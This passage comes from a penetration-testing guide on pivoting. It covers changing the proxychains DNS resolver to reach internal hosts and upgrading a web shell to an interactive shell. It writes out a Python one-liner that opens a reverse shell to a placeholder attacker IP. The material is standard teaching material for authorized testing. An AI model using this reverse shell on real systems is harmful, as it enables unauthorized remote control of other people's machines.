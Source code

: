 ```
    IPv4 Address . . . . . . . . . . : 172.16.46.160
    Subnet Mask  . . . . . . . . . . : 255.255.255.0
    Default Gateway  . . . . . . . . : 172.16.46.2
```

# DNS with proxychains

Proxychains doesn’t follow socks RFC when it comes to resolving hostnames. It intercepts ```gethostbyname``` libc call and tunnels tcp DNS request through the socks proxy. The things is, the DNS server is hardcoded to ```4.2.2.2```. You might want to change the nameserver in order to resolve names on the internal network. A typical scenario is to change the nameserver to domain controller if you are pentesting windows environment. The setup is located at ```/usr/lib/proxychains3/proxyresolv```:

```bash
#!/bin/sh
# This script is called by proxychains to resolve DNS names

# DNS server used to resolve names
DNS_SERVER=${PROXYRESOLV_DNS:-4.2.2.2}    #change nameserver here


if [ $# = 0 ] ; then
    echo "  usage:"
    echo "      proxyresolv <hostname> "
    exit
fi
```

# Beutifying your web shell

This section is not directly related to either pivoting or tunneling but instead describes a way of simplifying your work when developing attack into the internal network. Often, using a web-shell is rather tedious, especially when using programs that expect an interactive command interface. Most likely you will use some workarounds to performs simple tasks, such as passing password to sudo/su or just editing a file. I’m not a big fan of torturing myself, so when there’s an oportunity to escalate the web-shell to an interactive shell, I do so :) I won’t cover stuff like launching semi-interactive shell using bash/perl/python etc. There’s a ton of info on doing so. Check out this reverse shell cheat sheet - http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.

## Python PTY shell

An upgrade from a regular semi-interactive shell. You can execute the following command in your existing shell:

```python -c 'import pty; pty.spawn("/bin/bash")'```

Or initiate reverse connection:

```
python -c 'import socket,subprocess,os;\
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);\
s.connect(("<attackers_ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);\
os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

## Socat

Netcat on steroids! Seriously tho, go check this [tool’s](http://www.dest-unreach.org/socat/) manual man socat and you’d be amazed what you can do with this tool regarding tunneling. Among other things it can spawn a fully interactive shell, even better than the aforementioned python-pty. The downside is that you most probably will have to build/install this tool on the target server as it is not a default utility in most unix-like distributions.

```